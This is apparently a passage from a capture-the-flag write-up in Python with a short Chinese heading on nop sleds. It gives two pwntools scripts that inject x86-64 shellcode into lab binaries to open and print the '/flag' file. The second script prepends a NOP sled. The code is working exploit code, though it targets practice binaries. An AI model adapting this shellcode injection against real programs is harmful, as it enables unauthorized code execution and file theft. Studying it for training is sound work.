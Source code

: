 ```python

from pwn import *
context(os='linux', arch='amd64')
io=process('binary-exploitation-basic-shellcode')

sc = asm('''
mov rbx, 0x00000067616c662f
push rbx
mov rax,2
mov rdi,rsp
mov rsi,0
syscall

mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
syscall

mov rax,60
syscall
''')
pl=bytes(sc)

io.send(pl)
print(io.recvall().decode())
# io.interactive()

```
## nop sleds
填充足够的`nop`
```python

from pwn import *
context(os='linux', arch='amd64')
io=process('binary-exploitation-nopsled-shellcode')

sc = asm('''
mov rbx, 0x00000067616c662f
push rbx
mov rax,2
mov rdi,rsp
mov rsi,0
syscall

mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
syscall

mov rax,60
syscall
''')
pl=b'\x90'*0x800+bytes(sc)

io.send(pl)
print(io.recvall().decode())
# io.interactive()

```